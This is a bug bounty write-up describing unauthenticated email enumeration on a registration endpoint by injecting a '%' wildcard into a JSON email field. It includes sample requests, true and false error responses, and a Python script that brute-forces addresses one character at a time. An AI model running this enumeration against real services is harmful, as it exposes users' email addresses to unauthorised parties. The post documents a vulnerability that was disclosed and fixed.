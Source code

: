 ```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This blog post explores a recent finding I discovered in a bug bounty target. I stumbled upon a user enumeration issue that exposes email addresses without proper security measures. This vulnerability allows unauthorized users to enumerate all email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
Fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a 500 error code response when I injected a `%` character into the `userEmail` json parameter. The server returned a 500 Internal Server Error along with a  message

##### Request

```
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```

##### Response

```
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052

```
By observing this error message my assumption was the post request  sent to the registration endpoint with the `userEmail` parameter set to `%`. This input triggers a SQL query in the backend to select all records from the users table where the email column matches any value containing the `% ` character. The error message returned from the server indicates that there are 7052 entries in the system, giving insight into the number of user accounts present.Something like,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence

##### False Response Case:
```

HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

```
##### True Response Case:
```

HTTP Request: {"userEmail":"adamcorte%"}

HTTP Response: "There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id"

or

HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"


```
And based on this error messages, I(ChatGPT) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```
In response to this discovery, the program triaged and fixed the vulnerability by implementing input validation and captcha protection to the registration page.
